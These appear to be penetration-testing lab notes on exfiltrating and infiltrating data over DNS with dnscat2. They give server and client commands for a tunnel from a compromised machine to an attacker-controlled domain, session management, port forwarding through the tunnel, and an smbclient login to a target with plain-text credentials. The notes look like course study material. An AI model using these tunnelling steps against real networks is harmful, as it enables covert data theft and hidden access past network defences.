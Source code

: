 
data can be infiltrated and exfiltrated in small amounts through dns requests if we are in control of a dns server. We can send data through A queries and receive data with TXT queries from an internal network to an outside network that we can control.

we can use `dnsmasq` to configure simple dns on a server we control which can be queried from an internal server we've compromised.
### Tunneling with dnscat2

We can use dnscat to exfiltrate data with DNS subdomain queries and infiltrate data with TXT and other records.

set up network sniffing on DNS server we control:
```
sudo tcpdump -i ens192 udp port 53
```

set up dns server:
```
dnscat2-server feline.corp
```

on the client (compromised machine) we need to transfer the dnscat binary.

run the client (I believe we are defining our own domain name here? as the intermediary machine is resolving that were not interacting with):
```
dnscat feline.corp
```

the above steps creates a connection between dns server and client, we can now monitor all dns traffic on our server through the tcp listener we created.

now we can interact with out session on our dns server

list active sessions:
```
windows
```

select an active session for interacting with:
```
windows -i <num>
```

use question mark to list available commands:
```
?
```

learn how to use a command:
```
<command> --help
```

setting up a port forward:
```
listen <local ip>:<local port> <target_ip>:<target_port>
```

we can use this to port forward using our dns session on the dns server.

We can now run tools against the target through another shell on the dns server:
```
smbclient -p 4455 -L //127.0.0.1 -U hr_admin --password=Welcome1234
```

`setting a listener on 0.0.0.0 will allow our kali machine to directly interact with the dns server machine and grant us a tunnel to interact with the target machine we specified in the listener`

```
./dnscat_exercise_client -i 192.168.226.7 -p 8989
```